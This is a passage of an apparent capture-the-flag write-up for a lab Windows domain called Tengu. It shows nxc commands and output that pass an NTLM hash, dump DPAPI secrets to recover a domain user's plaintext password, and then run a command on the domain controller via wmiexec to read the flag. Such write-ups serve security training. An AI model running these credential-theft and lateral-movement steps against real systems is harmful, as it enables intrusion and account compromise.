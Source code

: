 ### dpapi

    ➜  Tengu proxychains -q nxc smb SQL -u Administrator -H '73db3fdd24bee6eeb5aac7e17e4aba4c' --local-auth --dpapi
    SMB         10.10.158.54    445    SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:SQL) (signing:False) (SMBv1:False)
    SMB         10.10.158.54    445    SQL              [+] SQL\Administrator:73db3fdd24bee6eeb5aac7e17e4aba4c (Pwn3d!)
    SMB         10.10.158.54    445    SQL              [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
    SMB         10.10.158.54    445    SQL              [+] Got 5 decrypted masterkeys. Looting secrets...
    SMB         10.10.158.54    445    SQL              [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{3C0BC8C6-D88D-450C-803D-6A412D858CF2} - TENGU\T0_c.fowler:UntrimmedDisplaceModify25

He is local admin !!!!!

and BOOOM!!!

    ➜  bofs proxychains -q nxc smb DC.tengu.vl -u 'T0_c.fowler' -p 'UntrimmedDisplaceModify25' -k -X 'type C:\Users\Administrator\Desktop\root.txt'
    SMB         DC.tengu.vl     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
    SMB         DC.tengu.vl     445    DC               [+] tengu.vl\T0_c.fowler:UntrimmedDisplaceModify25 (Pwn3d!)
    SMB         DC.tengu.vl     445    DC               [+] Executed command via wmiexec
    SMB         DC.tengu.vl     445    DC               #< CLIXML
    SMB         DC.tengu.vl     445    DC               VL{ananamı}
    SMB         DC.tengu.vl     445    DC               <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>

